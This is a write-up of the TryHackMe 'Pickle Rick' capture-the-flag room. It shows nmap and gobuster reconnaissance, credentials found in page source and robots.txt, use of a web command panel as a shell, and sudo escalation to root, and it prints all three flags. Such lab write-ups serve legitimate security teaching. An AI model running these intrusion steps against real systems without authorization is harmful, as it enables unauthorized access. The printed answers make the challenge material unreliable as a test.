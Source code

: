 # 🥒 TryHackMe: Pickle Rick — Walkthrough

**Difficulty:** Easy  
**Category:** CTF / Web Exploitation  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Room:** Pickle Rick  

---

## 🧠 Room Overview
A fun and creative **Rick and Morty-themed CTF** where the goal is to exploit a vulnerable web server and retrieve three secret ingredients to help Rick turn himself back into a human!

---

## 🚀 Objectives
- Exploit a web application
- Gain remote command execution via a web shell
- Escalate privileges to root
- Capture 3 flags (ingredients)

---

## ⚙️ Enumeration

### 🔍 Nmap Scan
```bash
sudo nmap -A -T4 -v -oN scan_results <TARGET_IP>
```
Identified open ports:
- 80/tcp → HTTP (Apache)

🌐 Web Exploration

Visit: http://<TARGET_IP>
Check page source → Found username: R1ckRul3s

🧭 Directory Brute-Forcing
```bash
gobuster dir -u http://<TARGET_IP> -x php,html,css,js,txt,pdf -w /usr/share/wordlists/dirb/common.txt
```

Discovered:

- /login.php

- /portal.php

- /robots.txt

From robots.txt:
```nginx
Wubbalubbadubdub
```

This is the password.

🔐 Login Credentials
```makefile
Username: R1ckRul3s
Password: Wubbalubbadubdub
```
🖥️ Command Panel Access

Once logged in, you’ll find a web command panel that executes system commands — effectively a web shell.

🧩 Ingredient #1

List files:
```bash
ls -a
```

Found Sup3rPickl3Ingred.txt.

Since cat is blocked, use:
```bash
strings Sup3rPickl3Ingred.txt
```

Flag 1: mr. meeseek hair

🧩 Ingredient #2

Check for hints:
```bash
strings clue.txt
```

Hint: “Look around the file system.”

Explore users:
```bash
ls /home
ls /home/rick
```

Found second ingredients file.

Read contents:
```bash
tac /home/rick/second\ ingredients
```

Flag 2: 1 jerry tear

🧩 Ingredient #3 (Root Flag)

Check current privileges:
```bash
whoami
sudo -l
```

The www-data user can run any command as root without password.

Access /root:
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

Flag 3: fleeb juice

🏁 Conclusion

We successfully exploited the web server, gained root access, and helped Rick become human again by collecting all three ingredients!

🧠 Key Learnings

- Enumeration and source code analysis

- Directory brute-forcing (GoBuster)

- Exploiting command panels

- Privilege escalation using sudo misconfigurations

🧰 Tools Used

- Nmap

- GoBuster

- Linux CLI

- Browser inspection tools

🧩 Flags Summary
Ingredient	Flag
1st	mr. meeseek hair
2nd	1 jerry tear
3rd	fleeb juice

Author: Mayank Pathak
Platform: TryHackMe
Room: Pickle Rick
